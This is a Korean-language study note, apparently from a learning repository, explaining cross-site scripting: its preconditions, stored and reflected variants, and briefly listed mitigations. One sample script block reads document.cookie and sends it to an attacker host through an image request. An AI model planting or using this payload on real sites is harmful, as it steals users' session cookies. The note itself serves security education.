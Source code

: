 # XSS

공격자의 입력값이
자바스크립트의 일부로 웹 브라우저에서
실행되는 취약점을 말한다.

## 목차
1. [xss를 성공하기 위해서](#xss를-성공하기-위해서)
2. [XSS with JavaScript](#XSS-with-Javascript)
3. [Stored XSS](#stored-xss)
4. [Reflected XSS](#reflected-xss)
5. [해결방안](#해결방안)

## xss를 성공하기 위해서

XSS공격을 성공하기 위해서는
통상적으로 두가지의 조건이 전제되어야 한다.

    1. 입력 데이터에 대한 충분한 검증 과정이 없어야 한다.
        - 입력한 데이터가 충분한 검증 과정이 없어,
          악성스크립트가 삽입 될 수 있어야 한다.
    
    2. 서버의 응답 데이터가 웹 브라우저 내 페이지에
       출력 시 충분한 검증 과정이 없어야 한다.
       - 웹 브라우저에서 출력 시 필터링에 걸리지 않아야한다.

이들의 대표적인 예시로는 게시판 서비스이며,
이는 게시글이 검증되지 않을 경우 해당 게시글의 이용자들이
악성스크립트가 그대로 실행되기 때문에 위험하다.
```txt
+ 악성스크립트가 전달되는 방식에 따라
  Stored XSS
  Reflected XSS
  등 여러가지로 나뉜다.
  
  하지만 취약점의 원인은 동일하다.
```

## XSS with Javascript

JS는 사용자의 웹 브라우저에서 동적으로 보여주거나,
화면 구성을 변환하거나, 자동으로 버튼을 누르는 등의
작업을 할 때 많이 사용된다.

이런 JS는 웹 브라우저나 웹의 입장에서 상당히 접근성이 높기에
페이지 내용 조작, 위치 주소 변경, 개인정보 유출 등 다양한 방식으로
동작 시킬 수 있기때문에 이는 XSS에 다양하게 이용된다.

이를 작동시키는 대표적인 방법은
```html
    <script>
        alert("hello");
        //hello 문자열 alert 실행

        document.cookie; 
        //현재 페이지의 cookie 리턴

        alert(document.cookie);
        //현재 페이지의 cookie값 alert 실행

        document.cookie = "name=test;";
        //도큐먼트의 쿠키 생성, (key: name, value: test)

                
        new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
        // new Image() 는 이미지를 생성하는 함수이며,
        // src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
        // "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키"
        //주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
    </script>
```
이 처럼 script태그를 이용하는 방식이 있으며,
특정상황을 이용하는 on* 이벤트들을 이용하는 경우도 있다.

## Stored XSS

이는 악성 스크립트가 서버 내에 저장되어있다가,
사용자가 이 스크립트를 조회하는 순간
발생하는 형태의 XSS이다.

이는 게시판과 같은 형태에서는
불특정 다수에게 공격이 가능하다는 점에서
높은 파급력이 생길 가능성이 존재한다.

## Reflected XSS

이는 악성스크립트가 사용자의 요청 시
전송되는 형태이다.

사용자의 요청 데이터가 서버의 응답에
포함되는 과정에서 악성스크립트가
그대로 출력되어 발생하게 된다.

이는 Stored XSS와는 다르게 사용자의 요청 데이터에
의해 취약점이 발생하기 때문에,
변조된 데이터가 사용자의 요청으로
전송되는 형태를 유도하여야 한다.

가장 간단한 방법은 특정 링크를 유도하는 방식이 있으며,
Click Jacking, Open Redirect등의
취약점과 연계할 수 있다.

대표적인 예로는 게시물들을 조회하기 위해
입력한 데이터에 의한 방식이 있다.
해당요청에 의하여 조회 한 결과를 응답에 출력하는데,
이때 서버가 제대로 방어를 하지않으면
Reflected XSS로 이어질 수 있다.

## 해결방안

  1. Server-side Mitigations
  2. HTTPOnly 플래그 사용
  3. Content Security Policy 사용
  4. X-XSS-Protection
